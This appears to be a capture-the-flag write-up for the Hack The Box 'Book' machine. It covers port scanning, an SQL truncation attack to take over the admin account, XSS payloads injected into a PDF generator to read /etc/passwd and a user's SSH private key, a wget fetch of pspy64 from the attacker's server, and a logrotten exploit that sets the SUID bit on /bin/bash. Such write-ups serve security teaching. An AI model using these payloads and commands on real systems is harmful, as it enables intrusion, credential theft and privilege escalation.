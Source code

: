 # [Book](https://app.hackthebox.com/machines/book)

```bash
nmap -p- --min-rate 10000  10.10.10.176 -Pn
```

![Alt text](img/image.png)

After knowing open ports(22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.176 -Pn 
```

![Alt text](img/image-1.png)


I just enumerate website via my account.

![Alt text](img/image-2.png)


I just login via 'dr4ks@gmail.com: dr4ks' to application.

![Alt text](img/image-3.png)


Directory brute-forcing.

```bash
gobuster dir -u http://10.10.10.176 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x php 
```

![Alt text](img/image-4.png)


I browsed '/admin' page and it returns that there is no 'register' option, we can only login, I tried credentials which I created, but doesn't work.

![Alt text](img/image-5.png)


I just enumerate users of this application via their emails that 'username@book.htb' for register section.


First, I tried via email 'admin@book.htb', and it says that user exists, that's why I know that there is user on **db of application**.

![Alt text](img/image-6.png)

Full HTTP request&response.

![Alt text](img/image-7.png)


**SQL TRUNCATION Attack** -> Here, I add spaces to end of email section, as a result, I can register an account via this email.
I added spaces (+) manually, for 6 of them worked for our case.


![Alt text](img/image-9.png)

Why it is happening as because tells me the max string size in the DB is 20. So when the . is in **position 21**, it’s dropped, and I registered a user as admin@book.htb (with trailing spaces removed).

Now, I can login via below credentials  (/admin endpoint)

admin@book.htb: dr4ks

![Alt text](img/image-8.png)


Now, I find XSS on non-admin site, that I malicious payloads into fields for book submission.

![Alt text](img/image-10.png)


I can see my malicious paylaod while generating PDF file.

![Alt text](img/image-11.png)


Let's add malicious javascript code that reads machine files.

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![Alt text](img/image-12.png)

While opening a PDF file, it gives us like this answer.


![Alt text](img/image-13.png)



Let's read private key (id_rsa) file of 'reader' user.

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

![Alt text](img/image-14.png)


Let's browse the page which we upload.

![Alt text](img/image-15.png)



user.txt

![Alt text](img/image-16.png)


I upload `pspy64` tool to see hidden processes on our target system.

```bash
python3 -m http.server --bind 10.10.14.6 8080
```

![Alt text](img/image-17.png)

On target, I download a file.
```bash
cd /tmp
wget http://10.10.14.6:8080/pspy64
```

![Alt text](img/image-18.png)


Here, I see 'logrotate' process is running.

![Alt text](img/image-19.png)


I searched publicly known exploit for this.

I find this [article](https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b) for privilege escalation.


You can get [Exploit](https://github.com/whotwagner/logrotten) script.


Let's compile malicious script via `gcc`.

```bash
gcc -o logrotten logrotten.c 
```

I also create malicious bash script which generates reverse shell.

My malicious bash script which add **SUID bit into '/bin/bash' binary.** (payload.sh)

```bash
#!/bin/sh
chmod +s /bin/bash
```

Then, I execute script(logrotten).
```bash
echo Hello >> /home/reader/backups/access.log;./logrotten -p payload.sh  /home/reader/backups/access.log
```

![Alt text](img/image-20.png)


Then, I tried many times `bash -p` command. One time, it worked.

![Alt text](img/image-21.png)


root.txt

![Alt text](img/image-22.png)